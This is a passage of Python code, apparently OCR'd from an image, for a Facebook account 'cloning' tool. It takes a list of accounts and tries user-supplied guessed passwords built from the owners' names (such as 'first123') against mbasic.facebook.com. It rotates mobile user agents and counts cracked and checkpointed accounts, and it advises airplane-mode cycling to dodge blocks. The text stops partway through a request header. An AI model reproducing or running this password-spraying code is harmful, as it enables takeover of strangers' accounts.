 
def method():
    okacc = []
    cpacc = []
    totalpass = []
    os.system("clear")
    print(logo)
    if 'o':      
        lp = input(f'[+] Total Password? : ')
        if lp.isnumeric():
            ex = 'firstlast first123 last123 first786 first1122 first last'
            print(f'[+] {ex} (ETC)')
            for x in range(int(lp)):
                totalpass.append(input(f'[1] Password : '))
            pass
        else:
            print(f"[+] Numeric Only")
            main()
    print(f'\n'+("[1]")+' Method 1 \n'+("[2]")+' Method 2 ')
    m=input(f"[+] Input : ") 
    print('\n'+("[+]")+'START CLONING PRESS?(y/n)')
    cpok=input(f"[+] Input : ")
    apps='y'
    os.system("clear")
    print(logo) 

    print(f' [+] Total Ids : \033[1;92m'+str(len(accounts)))
    print(f"\033[1;97m [+] Process start has been background")
    print(f"\033[1;97m [+] Airplane Mode After 5 min ")    
    print('\033[1;97m='*49)


    def start(user):
     try:
        global loop,accounts
        r = requests.Session()
        user = user.strip()
        acc, name = user.split("|")
        first = name.rsplit(" ")[0]
        try:
            last = name.rsplit(" ")[1]
        except:
           last = first
        pers = str(int(loop)/int(len(accounts)) * 100)[:4]
        sys.stdout.write('\r \033[1;97m[\033[1;97mM1\033[1;97m]\033[1;97m {}-{}        \r'.format(str(loop), str(len(accounts)), str(len(okacc)) ,str(len(cpacc))))
        sys.stdout.flush()
        for pword in totalpass:
            heads =random.choice(['Mozilla/5.0 (Linux; Android 11; TECNO KG7h Build/RP1A.200720.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/111.0.5563.116 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/408.1.0.36.103;]', 'Mozilla/5.0 (Linux; Android 10; Alcatel_5002C Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/111.0.5563.116 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/408.1.0.36.103;]', 'Mozilla/5.0 (Linux; Android 8.1.0; vivo X20Plus Build/OPM1.171019.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/110.0.5481.153 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/405.0.0.23.72;]', 'Mozilla/5.0 (Linux; Android 12; Infinix X6825 Build/SP1A.210812.016; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/111.0.5563.116 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/408.1.0.36.103;]', 'Mozilla/5.0 (Linux; Android 12; SM-G973F Build/SP1A.210812.016; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/111.0.5563.116 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/408.1.0.36.103;]', 'Mozilla/5.0 (Linux; Android 11; GM1901 Build/RKQ1.201022.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/103.0.5060.129 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/379.0.0.2.109;]'])
            header = {
    'method': 'POST',
    'scheme': 'https',
    'authority': 'mbasic.facebook.com',